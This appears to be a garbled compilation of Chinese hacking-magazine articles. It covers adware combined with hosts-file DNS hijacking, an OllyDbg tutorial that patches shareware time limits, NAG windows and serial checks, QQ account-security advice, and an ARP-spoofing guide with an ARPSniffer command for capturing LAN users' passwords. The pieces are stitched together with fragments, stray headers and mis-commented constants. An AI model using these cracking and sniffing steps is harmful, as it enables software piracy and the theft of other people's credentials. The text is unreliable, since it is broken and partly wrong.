现在这款广告插件的功能已经非常强大了，如果再配合 DNS 劫持，那么就可以说是无敌了。DNS（Domain Name Server），中文称为“域名服务器”，通俗地讲就是“域名解析”，域名和服务器 IP 捆绑，通过访问域名正确解析到该站点服务器上。在 Windows 系统中负责管理 DNS 配置的是位于“C:\WINDOWS\system32\drivers\etc”目录下的 hosts 文件，使用记事本打开后，会发现系统已经默认添加了一条将本机 IP“127.0.0.1”解析成“localhost”，也就是本机的记录。DNS 劫持就是将常用站点 IP 解析到你小站的域名，比如访问百度就解析到你的站点，那么这个危害还是很大的。在程序编写中要想写入“\hosts”文件，那么就要使用 append 文件追加方式来写入。


以上的代码情况如图 4 所示，大家请结合文章介绍来参考一下。优雅的 SEO 伴随着带有流氓气息的广告插件，呐喊出猛烈的呼声，声振屋瓦，振聋发聩。当那一缕缕灿烂如流沙般穿过的广告悄悄潜入用户的电脑时，宁静致远后，是流沙般无尽的流逝。

```vb
Private Sub Form_Load()
```

## 浅谈配合保护的突破

随着 IT 行业的发展，共享软件也越来越多，大家对于软件安全也是越来越重视，软件的保护方式也是越来越五花八门。与此同时，黑客们对软件保护的突破也在与时俱进，本文我就详细地介绍一下对常见软件保护的基本突破方法。

## 一、时间限制

有些程序的试用版每次运行都会有时间限制，运行 10 分钟或 20 分钟后就会停止工作，必须重新运行该程序才能正常工作，或者是每隔一段时间就给你一个提示信息要求你注册。这类程序中一般都是有一个定时器来统计程序运行的时间，我们来看下面这个程序，如图 1 所示。

它提示“必须破解，否则每一秒弹出一次窗口”，看到这儿我们就要想想，既然我们要破解，那么首先就得知道如何从编程的角度来实现这个功能。既然它是每两秒钟弹出一个窗口，那么一般就会用到一个 API 函数 SetTimer，我们来看看这个函数的原型：

```c
UINT_PTR SetTimer(
    HWND hWnd,
    UINT_PTR nIDEvent,
    UINT uElapse,
    TIMERPROC lpTimerFunc
);
```

我来解释一下它的几个参数：

- **HWND hWnd**：指向接受这个 Timer 事件消息的窗口句柄。
- **UINT_PTR nIDEvent**：定时器 ID，如果有多个定时器，可以通过这个参数来判断是哪个定时器。
- **UINT uElapse**：Timer 执行的时间间隔，单位为毫秒。
- **TIMERPROC lpTimerFunc**：回调函数，默认为 OnTimer() 函数；如果设置 NULL 的话直接响应 WM_TIMER 消息。

比如 `SetTimer(m_hWnd,1,1000,NULL);`，这样就可以创建一个每一秒触发一次的定时器，ID 是 1，没有回调函数，直接响应 WM_TIMER 消息。好的，现在我们打开 OD，加载这个程序。加载后，在汇编窗口中按 CTRL+G，就会弹出如图 2 所示的窗口，输入 SetTimer 后点击确定，OD 跳转到了另一个地方，来看代码：


```asm
77D18C2E > B8 1E120000   mov eax,121E
77D18C33   BA 0003FE7F   mov edx,7FFE0300
77D18C38   FF12          call dword ptr [edx]
```

这里就是 SetTimer 函数，我们按 F2 给这句代码下断点，然后再按 F9 让程序运行起来，刚一运行我们就会发现程序被中断下来了。现在我们注意一下堆栈窗口中的内容，如图 3，数据如下：


```asm
0012F454  77D18734  /CALL 到假定的 WinProc 来自 USER32.77D18731
0012F458  000E0856  hWnd = 000E0856（时间限制，class=NAG）
0012F45C  00000086  Message = WM_NCACTIVATE
0012F460  00000000  Active = FALSE
0012F464  000C0862  lParam = C0862
```

这里就是 SetTimer 的几个参数，我们可以看到这个 CrackMe 定义的计时器 ID 为 1，接收这个计时器的窗口的标题为“时间限制”，周期为两秒，没有设置回调函数。既然它没有设置回调函数，那么就是直接响应 WM_TIMER 消息的，我们可以直接给标题为“时间限制”的窗体设置一下 WM_TIMER 消息断点。大家注意 OD 的右上角有一排小按钮，我们要用到那个“W”按钮（Windows 的缩写，是指窗体），如图 4。


按一下这个小按钮，就会弹出来一个窗口，我们选择标题为“时间限制”的窗体，在上面点击右键并选择“在 ClassProc 上设置消息断点”，如图 5；在弹出的窗口中选择“113 WM_TIMER”消息，并选择“仅中断在当前窗口（下一次无效）”，如图 6，然后点击“确定”，再按 F9 让程序在 OD 中运行起来。我们可以看到程序被中断在了如图 7 所示的地方，这里也就是响应 WM_TIMER 消息的地方，我们一步步按 F8 向下执行，就会看到这样的代码：

```asm
004012E2  > 81FE 13010000   cmp esi,113
004012E8    75 14           jnz short 004012FE
004012EA    6A 00           push 0
; Style = MB_OK|MB_APPLMODAL; Case 113 (WM_TIMER) of switch 004011E4
004012EC    68 50604000     push 00406050
; Title = "警"
004012F1    68 30604000     push 00406030
; Text = "必须破...秒钟弹出?"
004012F6    6A 00           push 0
; hOwner = NULL
004012F8    FF15 BC504000   call dword ptr [<&USER32.MessageBoxA>] ; MessageBoxA
```

# 主题乐园


跳转实现的话就可以跳过弹出 NAG 窗口的代码了，所以我们只要把这里改为 JMP 就行了，双击这句代码，把代码改为“jmp short 004012FE”，如图 8，点击“确定”，再点击右键选择“复制到可执行文件”→“所有修改”，如图 9，在弹出的窗口中再点击右键并选择“保存文件”就完成破解了。来看看我们破解后的文件吧，如图 10，已经破解成功了，等了半天也没有弹出窗口。


## 二、灰色按钮限制

这种程序一般在菜单中有一部分选项是灰色的，用鼠标点击不起作用，只要注册后就正常了。可是我们哪里有钱去注册呢？只有用破解来解决了。大家来看一个这样的程序，如图 11，可以看到“破解”菜单栏下的“查看”按钮是灰色的，用鼠标点不下去，怎么办呢？肯定有人说可以使用“灰色按钮克星”，那我们就来试试，如图 12，果然成功了，但是它到底是怎么实现破解的呢？


这里就是弹出窗口的地方，我们注意这里还有一句 JNZ 选择跳转语句，只要让这个……


要想让按钮变成灰色，一般都会用到一个函数 EnableMenuItem，它可以允许、禁止或变灰指定的菜单条目，我们来看一下这个函数的原型：

```c
BOOL EnableMenuItem(
    HMENU hMenu,
    UINT uIDEnableItem,
    UINT uEnable
);
```

再来看一下它的几个参数：

- **HMENU hMenu**：要修改的对应菜单的句柄。
- **UINT uIDEnableItem**：要修改的对应菜单 ID。
- **UINT uEnable**：菜单项目标志，就是要修改为的状态，NULL 则菜单选项允许可用。

# 主题乐园

我们使用 OD 加载这个 CrackMe，在命令行插件窗口中输入命令“BP EnableMenuItem”，就可以给 EnableMenuItem 函数下一个断点了，如图 13。


按 F9 让程序在 OD 中运行起来，然后程序就会被中断在如图片 14 所示的地方，这里就是 EnableMenuItem 函数的代码处，它处于“User32.dll”的领空。这时候我们必须按 ALT+F9 让 OD 返回程序领空，接下来就会看到如下的代码：


```asm
00401189  | 8BF0                mov esi,eax
0040118B  | 56                  push esi
...
0040118C  | FF15 C4504000       call dword ptr [<&USER32.GetMenu>] ; GetMenu
00401192  | 6A 03               push 3
...
00401194  | 6A 69               push 69
...
00401196  | 50                  push eax
...
00401197  | FF15 C8504000       call dword ptr [<&USER32.EnableMenuItem>] ; EnableMenuItem
0040119D  | 85F6                test esi,esi
```

大家来看看这段代码的作用：先使用 GetMenu 函数获得菜单的句柄，然后调用 EnableMenuItem 函数设置菜单为不可用状态。我们可以使用 JMP 指令来跳过 EnableMenuItem 函数，把 00401192 这一句改为“jmp 0040119D”；也可以修改 EnableMenuItem 的第三个参数为 0 来使按钮可用，把 00401192 处的“push 3”改为“push 0”。修改代码后保存。修改代码和保存的方法我们在前面已经讲过了。来看看我们破解后的程序，如图 15，破解成功。


## 三、NAG 窗口

Nag 在英语中是烦人的意思，当我们在使用共享软件的时候，因为没有注册，所以程序就会弹出 Nag 窗口来提醒用户购买正式版本，或者软件设计者可能认为当用户受不了试用版中这些烦人的窗口时就会考虑购买正式版本。它可能会在程序启动或退出时弹出来，或者是在软件运行的某个时刻随机或定时地弹出来，确实比较烦人，我们来看一个示例程序，如图 16。


这个程序在运行前会弹出一个窗口，我们的任务就是把这个窗口去掉。在编写程序时一般会用到 MessageBoxA、MessageBoxExA、MessageBeep、DialogBoxParamA、ShowWindow、CreateWindowExA 等函数，我们使用 OD 加载 CrackMe 后，在命令行插件窗口中使用命令“BP 函数名”对这些函数分别下断点，然后按 F9 让程序运行起来，接着我们就会看到程序被断在了 DialogBoxParamA 处，如图 17。


现在我们再按 ALT+F9 让 OD 返回程序领空，但是会看到 OD 并没有断下来，而是在继续执行。这是因为在内部 DialogBoxParamA 会调用 EndDialog 或 DestroyWindow 等函数来关闭对话框窗口，所以当我们关闭对话框窗口的时候就会发现 OD 被中断在了这里，如图 18，代码如下：

```asm
00401000  /$ A1 88854000    mov eax,dword ptr [408588]
00401005  |. 83EC 1C        sub esp,1C
00401008  |. 56             push esi
00401009  |. 57             push edi
0040100A  |. 6A 00          push 0
0040100C  |. 68 30134000    push 00401330
00401011  |. 6A 00          push 0
00401013  |. 68 81000000    push 81
00401018  |. 50             push eax
00401019  |. FF15 D0504000  call dword ptr [<&USER32.DialogBoxParamA>] ; DialogBoxParamA
0040101F  |. 8B3D D4504000  mov edi,dword ptr [<&USER32.LoadStringA>] ; USER32.LoadStringA
00401025  |. 6A 64          push 64
```

其实当我们点击确定按钮的时候，程序就会调用像 GetWindowTextA、GetDlgItemTextA 等函数来获取编辑框的内容并进行处理，那么在这个时候我们对这些函数下断点，程序就会中断下来。我们用 OD 加载这个 CrackMe，在命令行插件窗口中使用命令“BP 函数名”对这些函数分别下断点，然后按 F9 让程序运行起来，接着就会看到程序被断在了 DialogBoxParamA 处，如图 22。


可以看到就是这里调用了 DialogBoxParamA 函数来弹出一个对话框窗口，所以我们只要把 0040100A 到 00401019 处的代码（DialogBoxParamA 函数调用和它的参数）全部修改为 nop 就可以了。来看看修改后的程序，如图 19 所示，已经没有那个讨厌的弹出窗口了。

我们按 ALT+F9 让 OD 返回程序领空，这时的代码如下：

```asm
00401346  > 6A 64            push 64
00401348    68 18854000      push 00408518
0040134D    6A 6F            push 6F
0040134F    56               push esi
00401350    FF15 B8504000    call dword ptr [<&USER32.GetDlgItemTextA>] ; GetDlgItemTextA
00401356    8B4424 0C        mov eax,dword ptr [esp+C]
0040135A    50               push eax
0040135B    68 18854000      push 00408518
00401360    E8 CB000000      call 00401430
00401365    83C4 08          add esp,8
00401368    85C0             test eax,eax
0040136A    6A 00            push 0
0040136C    74 1F            jz short 0040138D
```

## 四、序列号方式

算法一直都是加密的核心，并且随着近几年序列号加密程序的普及，算法在软件加密中的比重也是越来越大。通常我们在网上下载一个共享软件后，它提示需要序列号才可以使用软件的全部功能，这种常见的保护方式有下面几种：

- 1. 注册码  
  这种方式基本都是很简单的算法，它的检测方法基本都是“特定值 = F(注册码)”。

- 2. 用户名 + 注册码  
  与第一种方法相比，这种方法的确进步了许多，它的检测也比第一种先进一些，基本为“F(用户名)=F(注册码)”、“特定值=F(用户名,注册码)”。

- 3. 其他方式  
  比如还有“用户名 + 注册码 + 机器码”、“用户名 + 注册码 + 随机码”等，我们来看一个比较简单的 CrackMe，如图 20 所示，当点击确定后，会看到如图 21 所示的错误信息，像这种方式我们应该怎么办呢？

图23

这段代码首先获取编辑框的内容，然后调用 00401430 处的函数来处理注册码，最后在 0040136C 处有一个选择跳转。当密码错误时就跳走，所以我们只要把这一句 `JE` 改为 `NOP`，程序就会注册成功了。我们修改后保存一下，如图23所示，果然不错，程序成功注册了。但是我们今天是想看看算法的真正面目，所以就再次按 F7 跟进刚才的 `00401360 E8 CB000000 call 00401430`，跟进后的代码如下所示（我已经做了详细注释）：

```asm
00401430 cmp  dword ptr [esp+8], 0A      ; 判断注册码长度是否为10
00401435 jnz  short 00401499             ; 不为10则跳走
00401437 mov  ecx, dword ptr [esp+4]     ; 把注册码的指针传给ecx
0040143B xor  edx, edx                   ; edx清零
0040143D mov  al, byte ptr [edx+ecx]     ; 按位获取注册码
00401440 cmp  al, 30                     ; 注册码的ASCII与30比较
00401442 jl   short 00401499             ; 小于30就跳走
00401444 cmp  al, 39                     ; 注册码的ASCII与39比较
00401446 jg   short 00401499             ; 大于39就跳走
00401448 inc  edx                        ; 指针向后移动一位
00401449 cmp  edx, 0A                    ; 判断是否到达最后一位
0040144C jl   short 0040143D             ; 若没到达最后一位则跳走
0040144E movsx eax, byte ptr [ecx+5]     ; 取注册码第六位
00401452 movsx edx, byte ptr [ecx+2]     ; 取注册码第三位
00401456 add  eax, edx                   ; 注册码第三位与第六位相加
00401458 cmp  eax, 65                    ; 结果与65比较
0040145B jge  short 00401499             ; 大于等于65则跳走
0040145D movsx eax, byte ptr [ecx+9]     ; 取注册码第十位
00401461 movsx edx, byte ptr [ecx+8]     ; 取注册码第九位
00401465 add  eax, edx                   ; 第九位与第十位相加
00401467 movsx edx, byte ptr [ecx+1]     ; 取注册码第二位
0040146B add  eax, edx                   ; 结果再与第二位相加
0040146D movsx edx, byte ptr [ecx]       ; 取注册码第一位
00401470 add  eax, edx                   ; 结果再与第一位相加
00401472 cmp  eax, 0DC                   ; 结果与28比较
00401477 jl   short 00401499             ; 小于28则跳走
00401479 movsx eax, byte ptr [ecx+7]     ; 取注册码第八位
0040147D movsx edx, byte ptr [ecx+4]     ; 取注册码第五位
00401481 lea  eax, dword ptr [eax+edx+5] ; 第五位加第八位再加5
00401485 movsx edx, byte ptr [ecx+6]     ; 取注册码第七位
00401489 movsx ecx, byte ptr [ecx+3]     ; 取注册码第四位
0040148D add  edx, ecx                   ; 第七位与第四位相加
0040148F cmp  edx, eax                   ; 两次相加的结果比较
00401491 jnz  short 00401499             ; 不相等则跳走
00401493 mov  eax, 1                     ; 返回1
00401498 retn                            ; 正确返回
00401499 xor  eax, eax                   ; 返回0
0040149B retn                            ; 错误返回
```

通过以上的介绍，我们可以看出程序对注册码有这样几个要求：

- 1. 注册码必须是数字；
- 2. 注册码第三位和第六位的和要小于5；
- 3. 第一、二、九、十位的和必须大于28；
- 4. 第五位与第八位的和再加5要等于第四位与第七位的和。

（文章中涉及到的灰色按钮克星以及相关的 crackme 程序，已经收录在了光盘中）

## “QQ令牌”发售咯

网络的风险，在带给我们快乐的同时，也让我们深刻地了解到了有网的地方便会有危险。正如“木桶效应”中所阐述的，木桶的盛水量看的并不是最高的那块木板，而是最低的那块。把这句话换成当今的网络，就再适合不过了。网络的安全，看重的并不是它做了多好的防护，而是在这些防护中最为薄弱的地方。虽然网络的危险我们无法杜绝，但是却完全可以避免它们的发生。

### 一、2010年腾讯新产品之“QQ令牌”

随着QQ的不断升级和创新，腾讯于今年7月6日正式推出了“QQ令牌”。“QQ令牌”是腾讯公司专为保护QQ帐号以及游戏帐号安全的密保产品，当正常启动时，就会在液晶屏幕上显示6位动态密码；在一分钟后，动态密码会自动消失，使用者需要再次按下按键，重新获取动态密码，它的正面和反面如图1、图2所示。“QQ令牌”引入了银行级的安全防护措施，进一步提升了在线生活的安全等级，使得广大用户可以安心地使用腾讯的各项服务。

“QQ令牌”不仅可以用于QQ登录保护（需要将QQ的版本更新到QQ2010正式版或以上版本）以及Q币、Q点的保护，同时也可以对腾讯游戏用户的网游帐号进行保护。目前已经有“地下城与勇士”和“大明龙权”这两款游戏被纳入到了QQ令牌的保护体系中，相信未来还会有更多的腾讯游戏加入进来；对于还没有绑定QQ令牌的用户，可以到 `http://aq.qq.com/cn/manage/qqlp/qqlp_jump?sid=pub` 来绑定。与QQ绑定后，每次登录QQ时都会弹出一个类似对话框的界面，让大家输入六位动态密码，如图3所示就是登录QQ时显示的对话框。

“QQ令牌”是一款锁扣型的实物产品，其外观和工行、招行等发售的网盾产品很相似，可挂在钥匙扣上随身携带。一个“QQ令牌”最多可以绑定5个QQ帐号；如果在绑定时输入令牌序列号和动态密码后，页面提示“您的QQ令牌绑定了5个QQ帐号达到最多绑定帐号数，请您更换新的QQ令牌绑定QQ帐号。”对于绑定“QQ令牌”的要求，腾讯也做出了新的限制，目前只有拥有第二代密码保护的用户才可以绑定QQ令牌。大家可以看到，在二代密保和动态密码的双重保护下，我们的QQ应该说是接近了百分之百的安全，详细的使用说明和注意事项，我已经以PDF的形式提供给大家了。

## 二、2010“随身密保”之手机密保卡

“QQ令牌”在提供给用户优质服务的同时，也在收取着相应的费用。那么对于囊中羞涩的小菜，难道就不能使用腾讯提供的服务来保护自己的QQ吗？很遗憾，答案是不能。

E时代的我们，身边最不缺少或者说每个人都必备的一件数码产品，那就是手机了。所以腾讯为了用户的安全，在2010年也特别推出了一款专门适用于手机用户的密保卡。密保卡图片可以直接使用手机上网下载，手机存放图片更安全，也更方便。我们可以随时掏出手机打开密保卡图片来进行安全验证。首先使用浏览器打开 `http://aq.qq.com/cn/manage/mbk/my_mbk` 这个网址，申请绑定一张电子密保卡，如图6所示。

单击“领取一张密保卡”，程序会默认提供给我们两种领取方式：一种为电脑直接下载密保卡，不过我不建议大家使用这种方式，保存在电脑中毕竟不是绝对的安全，而且也不方便；如果把它抄写在纸上，不但容易丢失，也会随着日子的久远而变得模糊。第二种方式就是“手机下载密保卡”了，如图7。

我们点击“手机下载”后，就会得到腾讯提供给每位用户的电子密保卡下载地址，如图8所示。我们可以在手机浏览器中直接输入这个网址进行下载。另外，我们也可以通过编辑短信来获得手机下载地址：编辑短信“WAPC”（不区分大小写），移动用户发送到1065755802381，电信CDMA用户发送到1066170099，联通用户则需要随着地区的改变而改变。每张电子密保卡大概6KB左右。同样我们也能够使用电脑保存，如图9所示。用户申请的电子密保卡必须在7天内绑定并使用，逾期便会失效。需要注意的是，电子密保卡最好不要保存在邮箱或者网盘中，因为这样反而会令QQ变得不安全起来。

## 三、深层挖掘“怎样让密保手段”更有效

讲了这么多，一定会有读者朋友要问了，是不是有了密保卡在手，我们的QQ就绝对安全了呢？呵呵，当然不是了。首先又要提到我们文章开头的那段引言：“世界上并没有绝对的安全”。其密保的作用是防止我们的密码泄漏或被人利用，并不能防止病毒木马窃取你的信息。由于一些病毒木马会干扰电脑的正常运作，所以防止密码被窃取的根源就在于如何保证我们处于一个安全的上网环境中。通常我们的上网环境是家以及网吧。

- 1. 面对家庭上网环境，我们要做的就是及时更新系统的补丁，安装正版的杀毒软件、病毒防火墙、木马防火墙，不要随便访问来历不明的小网站。大家要明白木马是盗取我们账号密码的罪魁祸首之一，要时刻小心提防。
- 2. 在网吧环境中上网时，要尽量去那种大型的正规网吧，因为那些网吧的管理措施相对完善。在上机登录网站输入账号和密码时，要避免被他人偷窥，离开网吧时要确定电脑已经关闭或者重新启动。
- 3. QQ聊天时不要随便接收他人传递的文件，在不能确保其安全的情况下，不要随便接收。接收前也建议你向传文件者进行文件安全、发送者身份等方面的确认。不安全的文件可能会使我们的账号资料在数秒内就被清扫一空，不要随便打开不明确的网站。
- 4. 避免侥幸心理，尽量不要使用外挂等第三方辅助软件……在设置密码保护前，最好使用QQ医生等软件对电脑进行一次全面的木马查杀。
- 5. QQ用户文件夹的清理，在QQ安装根目录下“X:\qq\Users”中通常保存聊天记录和表情等信息……为了QQ账号安全，要有经常清理该文件夹的习惯。

### 四、认准QQ安全图标，严防邮件欺骗

QQ钓鱼技术一直以来都是盗取QQ的常见方法，其原理是伪造与官方网页相似或主题相关的页面诱骗用户。另一个常见方式是诈骗邮件，攻击者伪装成腾讯官方发送带欺骗性的邮件。

这是某个攻击者发送的欺骗邮件案例：发件人名可伪装为service，但邮箱并非腾讯官方域名；正文看似正常，点击关键链接会跳转到非官方修改密码页面。通过对比可发现，真正的申诉邮件左上角会有QQ安全中心图标（如图11），据此可识别伪造邮件。

### 五、最实用的QQ木马检测工具

本文介绍的“QQ木马检测工具”与常见盗号木马对抗，重点针对键盘记录型、内存截取型及钓鱼网站三类威胁进行检测。其思路是从木马行为角度分析风险，帮助用户发现异常。

软件使用方法较简单：运行后按提示将十字准星拖到QQ密码框，工具会自动补全“选中进程”“父进程”“X坐标”“Y坐标”“色条”“窗口句柄”等参数，用于后续检测。

按下来我们单击“开始检测”，软件就会提示“是否开始检测，注意：检测期间请不要进行任何操作！”，如图14。我们点击“是”，然后工具便会对QQ对话框进行检测，很快就会完成。检测完成后，在工具的右下角也会显示出检测结果，例如是否被键盘记录、内存取密等，也会弹出一个对话框来提示当前状态，如图15、图16、图17所示。

工具同时也支持对钓鱼网站的检测。我们只要勾选上“检测钓鱼网站”这个复选项，并且通过电脑杀毒软件允许修改注册表的提示，就可以在所有的IE内核浏览器的右键菜单里选中使用工具检测这个选项，来对钓鱼网站进行检测了。如图18所示为浏览器右键功能菜单，如图19所示为错误网站的提示，如图20所示为正确网站的提示。

### 六、一款多用之QQ木马终结者

这款杀毒软件名为——QQ木马病毒专杀工具，最新版本为2010世界杯版。软件大小虽然只有804KB，但是大家可千万不能小视它的功能，正所谓麻雀虽小五脏俱全。我们可以使用QQ木马病毒专杀工具的“闪电扫描”，来扫描计算机中的可疑文件启动项、服务加载项、注册表加载项，快速清除电脑中的QQ病毒、木马、流氓软件；当遇到无法清除的顽固文件时，还可以使用“文件粉碎”功能来彻底删除。同时使用QQ木马专杀工具生成系统扫描日志，把日志贴到网上还可以让高手迅速帮你解决问题。每个被非法共享的文件目录，都可以在“本机共享管理”中查看并取消。强大的服务管理功能支持启用服务、停止服务、禁止服务、查看非系统服务以及服务相关文件信息等等，而且在查杀病毒后，还会自动修复注册表、清除病毒注册表残留项。

软件运行后的界面如图21所示，最上边显示了电脑当前的一些情况，比如内存等。由于它的功能比较零碎并且多样，所以下面将分项讲解。

### 1、查杀病毒

查杀病毒一共分为四种模式，分别为“手动查杀”“注入查杀”“闪电查杀”“开机查杀”。

“手动查杀”为自定义删除查到的风险程序，同时软件支持直接将病毒拖拽的方法；“注入查杀”是辅助于“闪电查杀”功能的，我们可以使用此功能来清除顽固加载型DLL病毒，以达到让“闪电查杀”更加彻底。“闪电查杀”可以全自动删除查到的风险程序并且修复注册表。与“闪电查杀”所配合的还有软件底部的“抑制病毒再生”复选框，如果选择了这个选项，就会在系统中产生相关的抑制病毒再生目录，大家切不可随便删除。至于“开机查杀”，当我们遇到无法清除的病毒时就可以使用此功能，在系统启动前进行全面查杀，当然也可以用于文件的替换和恢复，但是此功能不适用于Windows 2000用户。在此功能下还有一个复选框功能“深度搜索病毒”，它的作用是全盘搜索 USP10.dll 最新病毒，并且加强搜索系统目录中隐藏的病毒。勾选上这个选项后将比较消耗系统内存，可能会出现数秒假死的情况，所以一般不推荐使用。

单击“闪电查杀”，杀毒程序便会对系统进行扫描，发现病毒后，就会弹出一个询问框，让我们选择如何处理，如图22所示。它可以实时保护U盘、MP3等移动设备不受自动加载型病毒的感染。接下来我们再点击“注入查杀”，如图23所示，注入查杀功能将会结束 Explorer.exe 的进程。由于结束了任务管理器进程，所以桌面的图标将会暂时性地消失，而且还会注入IE进程来实时查杀恶意威胁，以此来防止IE后台自动下载的网页木马。目前可拦截96%以上的IE漏洞木马，还可以自定义注入保护其它IE内核浏览器，点击确定以后就进入“注入查杀”了。

### 2、进程管理

主要是用来防止恶意软件欺骗用户。现在很多软件都会将自己伪装成正常的系统进程，而QQ木马病毒专杀工具所提供的进程管理服务可以帮助我们认识和管理系统的进程，对进程加载的模块进行注销及粉碎等操作。

把选项卡切换到“进程管理”，可以看到软件分为上下两部分：上边的部分是进程及路径，下边则是所选择进程的加载模块列表。我们可以分别单击右键执行相应的操作，如图24、图25所示。

服务等。如图27所示，上方为服务名、路径等信息，下方为相关服务名的介绍，我们可以使用右键菜单来进行相应的操作。


图25


图27

### 3、启动项

尽管我们可以使用电脑上的 Windows 任务管理器和系统配置程序来查看启动项，但它们并不能做到一目了然，显得不是很直观。当我们的电脑中了 QQ 病毒木马或恶意软件后，系统运行速度就会明显变慢，“QQ 木马专杀工具”为我们提供的“启动管理”服务可以向用户提供关于启动项的各种信息，包括文件夹启动项、运行入口、运行方式、注册表位置。我们可以查看并删除随机启动项目，这样可以减少因启动项过多而造成的系统资源的无谓浪费。

来到“启动项”工作区域，我们会看到与进程管理相同，启动项也同样分为上下两个部分。上边是注册表启动项、命令行和位置，也就是系统启动时所加载的程序列表；下方则是文件夹启动项、命令行和位置，是系统启动文件夹加载的程序列表。该文件夹启动项一般正常情况下只有默认的两个 desktop.ini，如果出现了其他的，而且是非自己安装的，那么我们就可以使用右键菜单的功能来把它们删除，如图26所示。


图26

### 4、服务项

杀毒程序提供的系统服务管理远比 Windows 自身的管理要强大，它可以直接停止、禁止、删除某个服务，自动识别非系统服务等。

### 5、屏蔽清理

这个功能可以有效地防止 QQ 消息留言进行诈骗。软件除了可自定义屏蔽各类不良网站外，还屏蔽骗人的 QQ 消息。针对好友发送来的文件或病毒，也可以自定义是否允许发送。

软件内置了清理系统垃圾功能，可以清理系统中的垃圾文件。我们打开过的程序或文件、浏览过的网站、欣赏过的电影和音乐等都会在电脑中留下痕迹，稍不留意就有可能被别有用心之人加以利用。使用这个功能就可以清除以上所有的操作电脑的历史痕迹，保护我们的隐私不被泄漏，同时也可以清理电脑的内存，如图28所示。


图28

### 6、系统修复及其他功能

### IE 加载项管理

IE 加载项是上网过程中遇到的 ActiveX 控件、部分软件安装过程中附加安装的 IE 工具条以及一些帮助功能等。加载项总是不管你愿不愿意，在你浏览网页时就会自动帮你装上。我们可以使用杀毒软件给大家提供的功能，对不合法的加载项进行禁止、清除等诸多操作，如图29所示。

### BHO 插件管理

BHO 文件是一种随 IE 浏览器每次启动而自动执行的小程序，通常情况下，一个 BHO 文件是由其他软件安装到用户系统中的。例如一些带有下载功能的广告软件，它可能会安装一个 BHO 文件，从而追踪用户在上网冲浪中遇到的众多网页广告。通常 BHO 文件会帮助用户更方便地浏览互联网或调用上网辅助功能，也有一部分 BHO 被人称为广告软件或间谍软件，它们监视用户的上网行为并把记录的相关数据报告给其创建者。BHO 也可能会与其他运行中的程序发生冲突，从而导致诸如各种页面错误、运行时错误等现象，通常阻止了正常浏览的进行。这款软件提供了 BHO 管理服务，能够帮助我们查看并管理 IE 浏览器加载的 BHO 文件，如图30所示。

此外，还可清除病毒木马在注册表中的加载值、清除病毒的注册表残留项、免疫“飘雪飞雪”病毒、修复被病毒篡改的其他注册表相关项，如图33、图34所示。


> 小知识：LSP 中文名为分层服务提供程序，LSP 就是 TCP/IP 协议等的接口。LSP 使用在正途上，可以方便程序员们编写监视系统网络通信情况的 Sniffer，可是现在常见的 LSP 都被用于浏览器劫持。

### 插件免疫

这款杀毒软件提供了三种插件免疫，分别是“免疫国内流氓插件”“免疫国外流氓插件”“清除病毒插件类”，如图31所示。

### LSP 修复

软件可以修复 WinSock2 注册表键值被破坏以后所造成的 TCP/IP 协议不能正常工作的问题，适用于中了些广告软件或流氓软件而导致的无法上网，如图32所示。

### 注册表修复

软件可以一键修复 EXE、COM、BAT、TXT 等多项系统文件关联，修复系统不能显示隐藏文件，解除病毒对注册表编辑器及任务管理器的锁定，修复 IE 的 ITS 协议漏洞，清除病毒木马在注册表中的加载值，清除病毒的注册表残留项。

### 文件粉碎

如果在病毒查杀过程中，提示有一些文件无法彻底清除，就可以使用“文件粉碎”功能，把要销毁的可疑文件彻底删除。对于这个功能，作者还在不断完善过程中，如图35所示。


### 安全菜单

这个工具菜单可以帮助我们屏蔽恶意网站、屏蔽 QQ 尾巴消息、屏蔽好友发送病毒、屏蔽 U 盘病毒自动启动等四项内容，只要把对应的屏蔽内容勾选上即可，如图36所示。


载和运行，“下载者”这类程序编写起来非常容易，体积虽然很小巧，但威力却不容小视。针对这种类型的下载者，我们可以使用“下载者监视器 V1.0”这款工具来解决。它可以监视无插入进程、DLL 插入进程和代码直接插入进程的下载者。当下载者运行的时候，就会弹出提示框，显示下载者本身的路径、想下载的程序网址以及下载后保存在电脑中的位置，然后我们就可以选择是否允许下载者下载。


工具运行后的界面如图37所示。我们只要点击“开始监视”的按钮，软件就会为我们监视下载，过程及产生的日志文件都会在“监视日志”中显示出来。在“监视日志”框内双击鼠标就可清空日志了。

> （本文涉及到 QQ 令牌说明书、QQ 木马检测工具、QQ 木马专杀工具，已收录到光盘中）

## 七、谨慎小心，看住“下载者”

目前网络上的下载者程序非常多，可以说已经成了中马的一个大热门方法。要想保住我们的 QQ，就要严防这些木马的下载者。

## 宿舍里的嗅探器——嗅探攻击被破解码

宿舍网里虽然以游戏为主，但是同样少不了写博客、逛论坛、收发邮件之类的。对于自己的博客、论坛密码之类的，都非常小心地保管，但是谁也没有料到，一夜之间，突然有十几位同学的博客、论坛、邮箱密码全部丢失了！是什么木马这么恐怖，竟然能够同时盗取这么多的密码？

其实攻击者并不是使用木马盗取密码的，攻击者基本就没有对被攻击者的电脑做任何手脚，而是在局域网里面运行了一些嗅探密码的工具。只要局域网里面有人登录博客、论坛、邮箱什么的，密码都会被嗅探工具自动截取记录下来……


## 一、通用嗅探器工具 ARPSniffer

- 步骤一：
  - 安装 WinPcap 驱动。
  - 与前面一样，在使用嗅探前，需要先安装最新版本的“WinPcap 3.1 beta 3”驱动，否则将无法捕获任何数据（如图1）。后面攻击者所使用的其他嗅探程序，也都是一样的。

- 步骤二：
  - 运行“WinArpSpoof”程序，首先打开配置对话框，选择“Adapter”选项卡，设置用来嗅探的网卡（如图2）。
  - 在“Spoofing”选项卡中勾选嗅探类型为双向，并勾选“Act as a Router……”项以启动自动路由功能（如图3）。


在该窗口中（如图4），点击工具栏上的“Scan”按钮，将自动扫描出局域网中的所有可进行嗅探攻击的主机（如图5）。如果要攻击的主机不在列表中的话，那么说明此主机不能被嗅探。

- 步骤三：

假设攻击目标主机的 IP 地址为“192.168.1.9”，网关 IP 地址为“192.168.1.1”，攻击者打开命令提示符窗口，进入 ARPSniffer 工具所在的目录，在命令窗口中执行命令“ARPSniffer.exe”，可查看到本机网卡的数字序号（如图6）。例如显示信息为：“Network Adapter 0: Realtek RTL8139 ......”，则说明序号为“0”。然后输入如下命令：

```bash
ARPSniffer 192.168.1.1 192.168.1.9 80 c:\password.txt 0
```


其中参数 0 是网卡数字序号，使用本机第一个网卡进行嗅探的话，就用“0”。命令运行后，提示“Begin Sniffer”，则表示开始监听 192.168.1.9 主机上通过 80 端口连接网站的各种信息了（如图7）。


- 步骤四：

